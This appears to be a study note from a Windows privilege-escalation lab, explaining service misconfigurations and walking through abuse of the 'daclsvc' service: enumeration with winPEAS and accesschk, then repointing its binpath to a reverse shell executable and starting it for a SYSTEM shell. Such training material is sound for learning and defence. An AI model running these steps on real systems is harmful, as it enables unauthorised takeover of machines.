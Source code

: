 ## Service Exploits
Services are simply programs that run in the background, accepting input or performing regular tasks. 
If services run with SYSTEM privileges and are misconfigured, exploiting them may lead to command execution with SYSTEM privileges as well.

Query the configuration of a service (service command (sc.exe) query dependencies (qc)):
```cmd
> sc.exe qc <name>
```

Query the current status of a service:
```cmd
> sc.exe query <name>
```

Modify a configuration option of a service:
```cmd
> sc.exe config <name> <option>= <value>
```

Start/stop a service:
```cmd
> net start/stop <name>
```

These are the main AV for services:
1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

### Insecure Service Permissions
Each service has an ACL which defines certain service-specific permissions.
Some permissions are innocuous (e.g. SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS).
Some may be useful (e.g. **SERVICE_STOP, SERVICE_START**).
Some dangerous (e.g. **SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS**).

If our user has permissions to change the configurations of a service which runs with SYSTEM privileges, we can change the executable the services uses to one of our own.

**Potential Rabbit Hole:** If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!
1. Run winPEAS to check for service misconfigurations
```cmd
> .\winPEASany.exe quiet servicesinfo
```
2. Note that we can modify the "daclsvc" service.
3. We can confirm this with accesschk.exe
```cmd
> .\accesschk.exe /accepteula -uwcqv user daclsvc
```
4. Check the current configuration of the service:
```cmd
> sc qc daclsvc
```
5. Check the current status of the service:
```cmd
> sc query daclsvc
```
6. Reconfigure the service to use our reverse shell executable:
```cmd
> sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```
7. Start a listener on Kali, and then start the sercie to trigger the exploit
```cmd
> net start daclsvc
```
